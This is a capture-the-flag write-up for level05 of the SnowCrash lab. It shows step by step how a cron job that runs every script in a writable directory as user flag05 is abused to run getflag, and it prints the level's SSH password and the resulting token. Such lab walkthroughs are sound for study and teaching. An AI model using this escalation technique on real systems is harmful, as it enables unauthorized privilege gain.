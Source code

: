 # Level 05 : found flag05

```bash
$ ssh level05@192.168.1.37 -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          192.168.1.37
level05@192.168.1.37's password: ne2searoevaevoem4ov4ar8ap
You have new mail.
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`\
This the description of a cron task, to call `/usr/sbin/openarenaserver` every 2 minutes as user `flag05`

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

As we can see, all script shell in the folder `/opt/openarenaserver/` are executed, then deleted.

```bash
level05@SnowCrash:~$ ls -la /opt/openarenaserver/
total 0
drwxrwxr-x+ 2 root root 40 Jan 23 19:20 .
drwxr-xr-x  1 root root 60 Jan 23 10:25 ..
```

And we have the right to create a file there.

```bash
level05@SnowCrash:~$ echo "/bin/getflag > /tmp/flag05" > /opt/openarenaserver/doit
level05@SnowCrash:~$ cat /opt/openarenaserver/doit
/bin/getflag > /tmp/flag05
```

We wait 2 minutes and..
```bash
level05@SnowCrash:~$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

****************************************

Documentations :
* https://superuser.com/questions/306163/what-is-the-you-have-new-mail-message-in-linux-unix
* https://www.liquidweb.com/kb/how-to-display-list-all-jobs-in-cron-crontab/
* https://www.freeformatter.com/cron-expression-generator-quartz.html
